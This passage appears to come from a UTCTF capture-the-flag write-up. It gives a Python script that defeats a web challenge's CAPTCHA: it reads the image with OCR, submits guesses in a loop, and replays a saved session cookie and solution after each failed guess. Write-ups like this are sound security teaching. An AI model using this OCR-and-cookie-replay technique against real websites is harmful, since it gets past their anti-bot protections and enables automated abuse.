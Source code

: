 ```python

def get_status(html: str) -> str:
    soup = BeautifulSoup(html, "html.parser")
    return soup.find("p")

def get_image(html: str):
    soup = BeautifulSoup(html, "html.parser")
    base64 = soup.find("img")["src"][23:]
    byteimage = BytesIO(b64decode(base64))
    return byteimage

# set known good values for lastdata and lastcookies so the program doesn't loop
lastcookies = {'session': 'u.t0dL7PW/308b0IS+q293b5xDoxBikB1honNSFKXXI3bDHlw=.3kx8Fie0+nm1/0gclmGQtw==.x5/rxvX2y0iOJovic9dx7w=='}
lastdata = {'solution': 'X7p8TS'}
cookies, data = {}, {}

# initial request
request = rq.post("http://web1.utctf.live:7132")

solves = 0
while solves < 999:
    cookies = request.cookies
    captcha = Image.open(get_image(request.text))
    guess = pyt.image_to_string(clean(background, captcha)).strip('\n')
    print("OCR says:", guess)

    data = { 'solution': guess }
    request = rq.post("http://web1.utctf.live:7132", cookies=cookies, data=data)

    if ("solved 0 captchas" in request.text):
        print("captcha: fail, rerequesting for new captcha")
        # this request should always succeed
        request = rq.post("http://web1.utctf.live:7132", cookies=lastcookies, data=lastdata)

    else:
        print("captcha: success")
        print(get_status(request.text))
        solves += 1
        # save the data for rerequesting an image if the next guess fails
        lastdata = data
        lastcookies = cookies

print(cookies)
print(data)

final_request = rq.post("http://web1.utctf.live:7132", cookies=cookies, data=data)
print(final_request.text)
```

## Ending Thoughts
